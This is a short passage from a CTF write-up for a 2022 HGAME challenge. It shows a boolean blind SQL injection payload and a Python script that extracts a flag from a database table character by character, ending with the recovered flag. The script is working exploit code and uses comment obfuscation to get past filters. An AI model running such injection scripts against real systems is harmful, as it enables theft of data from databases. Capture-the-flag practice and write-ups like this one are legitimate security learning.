 原payload:`?code=404 and (ascii(substr((select flag from seeeeeeecret limit 0,1),1,1)))>? `

```python
# -*- coding: utf-8 -*-
import requests
import re

findlink = re.compile(r'(.*) Pokemon (.*?) .*')
baseurl = "http://146.56.223.34:65432/error.php?code="
dbs = ""
for i in range(1, 100):
    print('----------------------------------------------------')
    min_value = 33
    max_value = 130
    mid = (min_value + max_value) // 2  # 中值
    while (min_value < max_value):
        code = f"404/**/%26%26/**/ascii(right(left((select/**/flag/**/from/**/seeeeeeecret/**/limit/**/0,1),{i}),1))>{mid}"
        payload = baseurl + code
        r = requests.get(payload)
        # 回显404说明表达式成立，mid太小
        if (len(re.findall(findlink, r.text)) != 0):
            min_value = mid + 1
        # 无回显说明表达式不成立，mid太大
        else:
            max_value = mid
        mid = (min_value + max_value) // 2
    dbs += chr(mid)
    print(dbs)

```



![image-20220316154044412](https://ek1ng-typora.oss-cn-hangzhou.aliyuncs.com/img/image-20220316154044412.png)

`hgame{96mz5v3c9hnj49t7xqj76et6xw4dpczy}`